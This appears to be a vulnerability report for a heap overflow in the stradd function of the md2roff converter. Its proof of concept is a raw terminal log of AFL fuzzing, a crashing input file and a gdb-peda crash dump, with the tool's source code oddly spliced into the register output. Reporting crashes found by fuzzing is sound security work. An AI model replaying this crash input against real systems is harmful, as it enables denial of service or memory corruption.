

Source:https://github.com/nereusx/md2roff  
Vulnerability Type: Heap overflow  
  
  
# Vulnerability description

The vulnerability exists in the file /md2roff.c , function _*stradd_.  

  

# POC  
```
Xshell 6 (Build 0095)
Copyright (c) 2002 NetSarang Computer, Inc. All rights reserved.

Type `help' to learn how to use Xshell prompt.
[C:\~]$ 

Connecting to 192.168.3.16:22...
Could not connect to '192.168.3.16' (port 22): Connection failed.

Type `help' to learn how to use Xshell prompt.
[C:\~]$ 

Connecting to 192.168.3.16:22...
Connection established.
To escape to local shell, press 'Ctrl+Alt+]'.

Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-65-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 14 Oct 2022 09:08:01 AM UTC

  System load:  3.08              Temperature:           36.0 C
  Usage of /:   0.1% of 16.90TB   Processes:             890
  Memory usage: 2%                Users logged in:       2
  Swap usage:   0%                IPv4 address for eno1: 192.168.3.16

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

85 updates can be installed immediately.
1 of these updates is a security update.
To see these additional updates run: apt list --upgradable


*** System restart required ***
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu Oct 13 09:55:38 2022 from 192.168.3.140
wzq@ouc6:~$ tmux
[detached (from session 10)]
wzq@ouc6:~$ tmux

wzq@ouc6:~$ ls
peda  wzq
wzq@ouc6:~$ cd wzq/
wzq@ouc6:~/wzq$ ls
afl  afl-utils  exploitable
wzq@ouc6:~/wzq$ cd afl
wzq@ouc6:~/wzq/afl$ ls
Bento4  fuzzdata  input  libconfuse-master  libconfuse-master.zip  ok-file-formats  output  poc0  work
wzq@ouc6:~/wzq/afl$ cd work/
wzq@ouc6:~/wzq/afl/work$ ls
md2roff
wzq@ouc6:~/wzq/afl/work$ cd md2roff/
wzq@ouc6:~/wzq/afl/work/md2roff$ ls
colld       crashes.db  LICENSE   md2roff       md2roff.1.pdf  md2roff.md  output2  peda-session-md2roff.txt  TODO.md
collection  examples    Makefile  md2roff.1.gz  md2roff.c      output      output3  README.md
wzq@ouc6:~/wzq/afl/work/md2roff$ cd output
wzq@ouc6:~/wzq/afl/work/md2roff/output$ cd ..
wzq@ouc6:~/wzq/afl/work/md2roff$ ls
colld       crashes.db  LICENSE   md2roff       md2roff.1.pdf  md2roff.md  output2  peda-session-md2roff.txt  TODO.md
collection  examples    Makefile  md2roff.1.gz  md2roff.c      output      output3  README.md
wzq@ouc6:~/wzq/afl/work/md2roff$ cd output3
wzq@ouc6:~/wzq/afl/work/md2roff/output3$ ls
crashes  fuzz_bitmap  fuzzer_stats  hangs  plot_data  queue
wzq@ouc6:~/wzq/afl/work/md2roff/output3$ cd crashes/
wzq@ouc6:~/wzq/afl/work/md2roff/output3/crashes$ ls
id:000000,sig:11,src:000429+000010,op:splice,rep:2   id:000022,sig:11,src:000815+000048,op:splice,rep:16   id:000044,sig:11,src:000431+000635,op:splice,rep:128
id:000001,sig:11,src:000503+000059,op:splice,rep:4   id:000023,sig:11,src:000203+000635,op:splice,rep:16   id:000045,sig:11,src:000342+000830,op:splice,rep:64
id:000002,sig:11,src:000038,op:havoc,rep:16          id:000024,sig:11,src:000343+000635,op:splice,rep:8    id:000046,sig:11,src:000636,op:havoc,rep:16
id:000003,sig:11,src:000589+000010,op:splice,rep:2   id:000025,sig:11,src:000477+000118,op:splice,rep:4    id:000047,sig:11,src:000439+000223,op:splice,rep:64
id:000004,sig:11,src:000602+000038,op:splice,rep:4   id:000026,sig:06,src:000780+000477,op:splice,rep:64   id:000048,sig:11,src:000616,op:havoc,rep:32
id:000005,sig:11,src:000486+000105,op:splice,rep:8   id:000027,sig:11,src:000832+000010,op:splice,rep:4    id:000049,sig:06,src:000810+000134,op:splice,rep:4
id:000006,sig:11,src:000038,op:havoc,rep:32          id:000028,sig:11,src:000675+000010,op:splice,rep:64   id:000050,sig:11,src:000817,op:havoc,rep:4
id:000007,sig:11,src:000481+000059,op:splice,rep:4   id:000029,sig:11,src:000775+000040,op:splice,rep:32   id:000051,sig:11,src:000861,op:havoc,rep:128
id:000008,sig:11,src:000494+000059,op:splice,rep:4   id:000030,sig:11,src:000625,op:havoc,rep:32           id:000052,sig:11,src:000597+000738,op:splice,rep:8
id:000009,sig:11,src:000193+000099,op:splice,rep:16  id:000031,sig:11,src:000761+000118,op:splice,rep:2    id:000053,sig:06,src:000583+000289,op:splice,rep:128
id:000010,sig:11,src:000650+000010,op:splice,rep:32  id:000032,sig:06,src:000801,op:havoc,rep:32           id:000054,sig:11,src:000583,op:havoc,rep:32
id:000011,sig:06,src:000656,op:havoc,rep:16          id:000033,sig:11,src:000546,op:havoc,rep:8            id:000055,sig:11,src:000809+000141,op:splice,rep:4
id:000012,sig:06,src:000664,op:havoc,rep:4           id:000034,sig:11,src:000669,op:havoc,rep:16           id:000056,sig:11,src:000532+000099,op:splice,rep:128
id:000013,sig:11,src:000493,op:havoc,rep:32          id:000035,sig:11,src:000797+000118,op:splice,rep:32   id:000057,sig:11,src:000332+000670,op:splice,rep:64
id:000014,sig:11,src:000583,op:havoc,rep:64          id:000036,sig:11,src:000615+000105,op:splice,rep:64   id:000058,sig:11,src:000868+000844,op:splice,rep:16
id:000015,sig:06,src:000721,op:havoc,rep:64          id:000037,sig:11,src:000708,op:havoc,rep:16           id:000059,sig:11,src:000283+000702,op:splice,rep:32
id:000016,sig:11,src:000733+000670,op:splice,rep:64  id:000038,sig:11,src:000767+000105,op:splice,rep:4    id:000060,sig:11,src:000482,op:havoc,rep:16
id:000017,sig:11,src:000583+000568,op:splice,rep:4   id:000039,sig:06,src:000861,op:havoc,rep:4            id:000061,sig:11,src:000675+000074,op:splice,rep:32
id:000018,sig:11,src:000759,op:havoc,rep:64          id:000040,sig:11,src:000656,op:havoc,rep:64           id:000062,sig:11,src:000875+000145,op:splice,rep:32
id:000019,sig:11,src:000725+000097,op:splice,rep:64  id:000041,sig:11,src:000764,op:havoc,rep:8            id:000063,sig:11,src:000675+000635,op:splice,rep:8
id:000020,sig:11,src:000368+000633,op:splice,rep:8   id:000042,sig:11,src:000325+000022,op:splice,rep:4    README.txt
id:000021,sig:06,src:000741+000566,op:splice,rep:64  id:000043,sig:06,src:000189+000263,op:splice,rep:128
wzq@ouc6:~/wzq/afl/work/md2roff/output3/crashes$ cd ..
wzq@ouc6:~/wzq/afl/work/md2roff/output3$ cd ..
wzq@ouc6:~/wzq/afl/work/md2roff$ ls
colld       crashes.db  LICENSE   md2roff       md2roff.1.pdf  md2roff.md  output2  peda-session-md2roff.txt  TODO.md
collection  examples    Makefile  md2roff.1.gz  md2roff.c      output      output3  README.md
wzq@ouc6:~/wzq/afl/work/md2roff$ cd collection/
wzq@ouc6:~/wzq/afl/work/md2roff/collection$ ls
gdb_script                                                  output:id:000018,sig:11,src:000505+000306,op:splice,rep:16  output:id:000039,sig:06,src:000801,op:havoc,rep:16
output:id:000000,sig:11,src:000292+000135,op:splice,rep:32  output:id:000019,sig:11,src:000664+000674,op:splice,rep:4   output:id:000040,sig:06,src:000327+000780,op:splice,rep:4
output:id:000002,sig:11,src:000105,op:havoc,rep:8           output:id:000026,sig:06,src:000780,op:havoc,rep:4           output:id:000044,sig:11,src:000256+000226,op:splice,rep:16
output:id:000016,sig:11,src:000636,op:havoc,rep:16          output:id:000029,sig:06,src:000802,op:havoc,rep:8           output:id:000047,sig:06,src:000810,op:havoc,rep:32
output:id:000017,sig:06,src:000636,op:havoc,rep:16          output:id:000036,sig:11,src:000636+000359,op:splice,rep:32  output:id:000049,sig:11,src:000817,op:havoc,rep:4
wzq@ouc6:~/wzq/afl/work/md2roff/collection$ cd ..
wzq@ouc6:~/wzq/afl/work/md2roff$ ./md2roff ./collection/output\:id\:000049\,sig\:11\,src\:000817\,op\:havoc\,rep\:4 
.\# roff document
.\# DO NOT MODIFY THIS FILE! It was generated by md2roff
.do mso man.tmac
.TH ./collection/output:id:000049,sig:11,src:000817,op:havoc,rep:4 7 2022-10-14 document
Segmentation fault
wzq@ouc6:~/wzq/afl/work/md2roff$ gdb
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
gdb-peda$ 
[1]+  Stopped                 gdb
wzq@ouc6:~/wzq/afl/work/md2roff$ gdb ./md2roff 
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./md2roff...
gdb-peda$ run ./collection/
[2]+  Stopped                 gdb ./md2roff
wzq@ouc6:~/wzq/afl/work/md2roff$ ls
colld       crashes.db  LICENSE   md2roff       md2roff.1.pdf  md2roff.md  output2  peda-session-md2roff.txt  TODO.md
collection  examples    Makefile  md2roff.1.gz  md2roff.c      output      output3  README.md
wzq@ouc6:~/wzq/afl/work/md2roff$ cd collection/
wzq@ouc6:~/wzq/afl/work/md2roff/collection$ ls
gdb_script                                                  output:id:000018,sig:11,src:000505+000306,op:splice,rep:16  output:id:000039,sig:06,src:000801,op:havoc,rep:16
output:id:000000,sig:11,src:000292+000135,op:splice,rep:32  output:id:000019,sig:11,src:000664+000674,op:splice,rep:4   output:id:000040,sig:06,src:000327+000780,op:splice,rep:4
output:id:000002,sig:11,src:000105,op:havoc,rep:8           output:id:000026,sig:06,src:000780,op:havoc,rep:4           output:id:000044,sig:11,src:000256+000226,op:splice,rep:16
output:id:000016,sig:11,src:000636,op:havoc,rep:16          output:id:000029,sig:06,src:000802,op:havoc,rep:8           output:id:000047,sig:06,src:000810,op:havoc,rep:32
output:id:000017,sig:06,src:000636,op:havoc,rep:16          output:id:000036,sig:11,src:000636+000359,op:splice,rep:32  output:id:000049,sig:11,src:000817,op:havoc,rep:4
wzq@ouc6:~/wzq/afl/work/md2roff/collection$ cd ..
wzq@ouc6:~/wzq/afl/work/md2roff$ ls
colld       crashes.db  LICENSE   md2roff       md2roff.1.pdf  md2roff.md  output2  peda-session-md2roff.txt  TODO.md
collection  examples    Makefile  md2roff.1.gz  md2roff.c      output      output3  README.md
wzq@ouc6:~/wzq/afl/work/md2roff$ gdb ./md2roff 
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./md2roff...
gdb-peda$ run ./collection/output:id:000049,sig:11,src:000817,op:havoc,rep:4
Starting program: /home/wzq/wzq/afl/work/md2roff/md2roff ./collection/output:id:000049,sig:11,src:000817,op:havoc,rep:4
.\# roff document
.\# DO NOT MODIFY THIS FILE! It was generated by md2roff
.do mso man.tmac
.TH ./collection/output:id:000049,sig:11,src:000817,op:havoc,rep:4 7 2022-10-14 document

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x4115c0 --> 0x0 
RBX: 0x5b ('[')
RCX: 0x4115c0 --> 0x0 
RDX: 0x60 ('`')
RSI: 0x5d (']')
RDI: 0x42aa00 --> 0xab7c3b5e5b0b2323 
RBP: 0xfffffffffffffffc 
RSP: 0x7fffffffdd10 --> 0x0 
RIP: 0x4093c1 (<md2roff+17137>: mov    BYTE PTR [r13+0x3],0xe2)
R8 : 0x0 
R9 : 0x59 ('Y')
R10: 0x4009e2 --> 0x6600726863727473 ('strchr')
R11: 0x7ffff7f530e0 (<__strchr_avx2>:   endbr64)
R12: 0x4268e8 ('`' <repeats 200 times>...)
R13: Cannot access memory address
R14: 0x4268e9 ('`' <repeats 200 times>...)
/*
 *      md2roff.c
 *      A utility to convert markdown documents to troff.
 *
 *      Copyright (C) 2017, Nicholas Christopoulos (mailto:nereus@freemail.gr)
 *
 *      License GPL3+
 *      CC: std C99
 *      URL: http://github.com/nereusx/md2roff
 * 
 *      history:
 *              2017-05-08, created
 *              2019-02-10, cleanup
 *              2021-02-13, SYNTAX and a few improvements for man-pages
 *              2021-03-09, v1.4
 *              2021-06-26, v1.5, ms package
 *              2021-09-18, v1.6, option --synopsis-style
 *              2022-06-26, v1.7, regex added to support -z better
 *              2022-07-13, v1.8, blockquotes
 *              2022-09-18, v1.9, tables
 *
 *      This program is free software; you can redistribute it and/or modify
 *      it under the terms of the GNU General Public License.
 *      See LICENSE for details.
 */

#include <stdbool.h>
#include <time.h>
#include <stdarg.h>
#include <stdio.h>
#include <stdlib.h>
#include <ctype.h>
#include <string.h>
#include <errno.h>
#include <regex.h>

// options
typedef enum { mp_mm, mp_man, mp_mdoc, mp_mom, mp_ms } macropackage_t;
macropackage_t  mpack = mp_man;
int     man_ofc = 0, write_lock = 0, std_q = 1;
int opt_name_style = 0;
typedef struct { const char *wrong, *correct; } dict_line_t;
dict_line_t mdic[] = {
{ "bitmask", "bit mask" },
{ "builtin", "build-in" },
{ "epoch", "Epoch" },
{ "file name", "filename" },
{ "file system", "filesystem" },
{ "host name", "hostname" },
{ "i-node", "inode" },
{ "i-nodes", "inodes" },
{ "lower case", "lowercase" },
{ "lower-case", "lowercase" },
{ "upper case", "uppercase" },
{ "upper-case", "uppercase" },
{ "path name", "pathname" },
{ "pseudo-terminal", "pseudoterminal" },
{ "real time", "real-time" },
{ "realtime", "real-time" },
{ "runtime", "run time" },
{ "super user", "superuser" },
{ "super-user", "superuser" },
{ "super block", "superblock" },
{ "super-block", "superblock" },
{ "time stamp", "timestamp" },
{ "time zone", "timezone" },
{ "userspace", "user space" },
{ "user name", "username" },
{ "x86_64", "x86-64" },
{ "zeroes", "zeros" }, // ?!
{ "32bit", "32-bit" },
{ "Unices", "Unix systems" },
{ "Unixes", "Unix systems" },
{ "man page", "manual page" },
{ "man pages", "manual pages" },
{ "manpage", "manual page" },
{ "manpages", "manual pages" },
{ "minus infinity", "negative infinity" },
{ "non-root", "unprivileged user" },
{ "non-superuser", "unprivileged user" },
{ "nonprivileged", "unprivileged" },
{ NULL, NULL } };

/*
 * if 'when' is true, print error message and quit
 */
void panicif(int when, const char *fmt, ...) {
        char    msg[1024];
        va_list ap;

        va_start(ap, fmt);
        if ( when ) {
                vsnprintf(msg, 1024, fmt, ap);
                fprintf(stderr, "%s [%s]\n", msg, strerror(errno));
                exit(EXIT_FAILURE);
                }
        va_end(ap);
        }

/*
 * clone string
 */
char *strdup(const char *s) {
        char *d = (char *) malloc(strlen(s) + 1);
        if ( d )
                strcpy(d, s);
        return d;
        }

/*
 *      squeeze (& strdup)
 */
char *sqzdup(const char *source) {
        char *rp, *p, *d;
        int lc = 0;

        rp = malloc(strlen(source) + 1);
        p = (char *) source;
        d = rp;

        while ( isspace(*p) ) p ++;

        while ( *p ) {
                if ( isspace(*p) ) {
                        if ( !lc ) {
                                lc = 1;
                                if ( p > source ) {
                                        if ( isalnum(*(p-1)) || strchr(",;.)}]", *(p-1)) )
                                                *d ++ = ' ';
                                        else {
                                                char *nc = p;
                                                while ( isspace(*nc) )
                                                        nc ++;
                                                if ( isalnum(*nc) )
                                                        *d ++ = ' ';
                                                }
                                        }
                                }
                        }
                else {
                        lc = 0;
                        *d ++ = *p;
                        }
                p ++;
                }

        *d = '\0';
        if ( d > rp ) {
                if ( isspace(*(d - 1)) )
                        *(d - 1) = '\0';
                }

        return rp;
        }

/*
 * regex find & replace
 */
char* regex_find_and_replace(const char *src, regex_t *re, const char *rp) {
        size_t  size = 0x10000 + strlen(src);
        char    *buf = (char *) malloc(size);
        char    *pos;
        int             sub, so, n;
        regmatch_t pmatch[10]; /* regoff_t is int so size is int */

        strcpy(buf, src);
        if ( regexec(re, buf, 10, pmatch, 0) != REG_NOMATCH ) {
                // first do preliminary replacements in the replacement text i.e. \1 -> first match
                for ( pos = (char *) rp; *pos; pos ++ ) {
                        if (*pos == '\\' && *(pos + 1) > '0' && *(pos + 1) <= '9') {
                                so = pmatch [*(pos + 1) - 48].rm_so;
                                n = pmatch [*(pos + 1) - 48].rm_eo - so;
                                if ( so < 0 || strlen(rp) + n - 1 > size ) return buf;
                                memmove(pos + n, pos + 2, strlen(pos) - 1);
                                memmove(pos, buf + so, n);
                                pos = pos + n - 2;
                                }
                        }

                sub = pmatch [1].rm_so; // repeated replace when sub >= 0
                for ( pos = buf; !regexec(re, pos, 1, pmatch, 0); ) {
                        n = pmatch [0].rm_eo - pmatch [0].rm_so;
                        pos += pmatch [0].rm_so;
                        if ( strlen(buf) - n + strlen(rp) + 1 > size )
                                break;
                        memmove(pos + strlen(rp), pos + n, strlen(pos) - n + 1);
                        memmove(pos, rp, strlen (rp));
                        pos += strlen(rp);
                        if ( sub >= 0 ) break;
                        }
                }

        return realloc(buf, strlen(buf) + 1);
        }

/*
 * Loads the `filename` file into memory and return a pointer to its contents.
 * The pointer must freed by the user.
 */
char *loadfile(const char *filename) {
        int len = -1, c, alloc;
        FILE *fp;
        char *buf;

        if ( filename == NULL ) {
                len = 0;
                alloc = 1024;
                buf = (char *) malloc(alloc);
                while ( (c = fgetc(stdin)) != EOF ) {
                        buf[len] = c;
                        len ++;
                        if ( len >= alloc ) {
                                alloc += 1024;
                                buf = (char *) realloc(buf, alloc);
                                }
                        }
                }
        else {
                panicif((fp = fopen(filename, "r")) == NULL, "Unable to open '%s'", filename);
                panicif((fseek(fp, 0L, SEEK_END) == -1), "fseek failed");
                panicif((len = ftell(fp)) == -1, "ftell failed");
                panicif((fseek(fp, 0L, SEEK_SET) == -1), "fseek failed");
                buf = (char *) malloc(len+1);
                panicif((fread(buf, len, 1, fp) == -1), "fread failed");
                buf[len] = '\0';
                fclose(fp);
                if ( man_ofc ) {
                        char pat[256], *np;
                        regex_t regex;
                        int reti;
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4093ab <md2roff+17115>:    mov    rax,QWORD PTR [rip+0x808e]        # 0x411440 <__afl_area_ptr>
   0x4093b2 <md2roff+17122>:    add    BYTE PTR [rax+0xe4a2],0x1
   0x4093b9 <md2roff+17129>:    mov    DWORD PTR fs:[rbp+0x0],0x5fe3
=> 0x4093c1 <md2roff+17137>:    mov    BYTE PTR [r13+0x3],0xe2
   0x4093c6 <md2roff+17142>:    movsxd rax,DWORD PTR fs:[rbp+0x0]
   0x4093cb <md2roff+17147>:    mov    rcx,QWORD PTR [rip+0x806e]        # 0x411440 <__afl_area_ptr>
   0x4093d2 <md2roff+17154>:    xor    rax,0xb6c8
   0x4093d8 <md2roff+17160>:    add    BYTE PTR [rcx+rax*1],0x1
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd10 --> 0x0 
0008| 0x7fffffffdd18 --> 0x42aa60 --> 0xb2323725f72e14d 
0016| 0x7fffffffdd20 --> 0x0 
0024| 0x7fffffffdd28 --> 0x411501 --> 0x0 
0032| 0x7fffffffdd30 --> 0x423490 --> 0xb2323725f72e14d 
0040| 0x7fffffffdd38 --> 0x0 
0048| 0x7fffffffdd40 --> 0x0 
0056| 0x7fffffffdd48 --> 0x0 
[------------------------------------------------------------------------------]
                                        }
                                }
                        }
                }

        return buf;
        }

/*
 * adds the string 'str' to buffer 'buf' and returns
 * a pointer to new position in buf.
 */
char *stradd(char *buf, const char *str) {
        const char *p = str;
        char *d = buf;

        while ( *p )
                *d ++ = *p ++;
        return d;
        }

/*
 * prints the whole line of 'src' and returns pointer
 * to the next character (the first of the next line).
 */
const char *println(const char *src) {
        const char *p = src;

        while ( *p ) {
                if ( !write_lock )
                        putchar(*p);
                p ++;
                if ( *(p-1) == '\n' )
                        break;
                }
        return p;
        }

/*
*       types of elements
*/
enum { none,
                par_end, ln_brk,
                cblock_end, cblock_open,
                li_open, li_end,
                ol_open, ul_open, lst_close,
                man_ref, ol, ul,
                bq_open, bq_close,
                box_open, box_close,
                url_mark,
                tbl_open, tbl_close,
                new_sh, new_ss, new_s4 };

/*
*       list (enumeration/itemize) stack
*/
#define MAX_LIST_SIZE   32
int             stk_list[MAX_LIST_SIZE];        // type of list
int             stk_count[MAX_LIST_SIZE];       // counter of item
int             stk_list_p = 0;                         // top pointer, always points to first free
int             bq_level = 0, prev_bq_level = 0;

/*
*       write the roff code of 'type'
*/
void roff(int type, ...) {
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004093c1 in stradd (buf=0x442ffd "\\fP"<error: Cannot access memory at address 0x443000>, str=<optimized out>) at md2roff.c:256
256                     *d ++ = *p ++;
gdb-peda$ cd ..
Working directory /home/wzq/wzq/afl/work.
gdb-peda$ ls
md2roff
gdb-peda$ 
[3]+  Stopped                 gdb ./md2roff
wzq@ouc6:~/wzq/afl/work/md2roff$ ls
Már_r##^K[^;|«\<86>.iîg  ###[_reL ##>[^#^_#^K[¯;|^E<95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95><95>``````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````
````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````
"output:id:000049,sig:11,src:000817,op:havoc,rep:4" [noeol][converted] 1L, 30254C                                                                                        1,1           All
[11] 0:tmux- 1:vim*                                                                                                                                                  "ouc6" 09:43 14-Oct-22
```
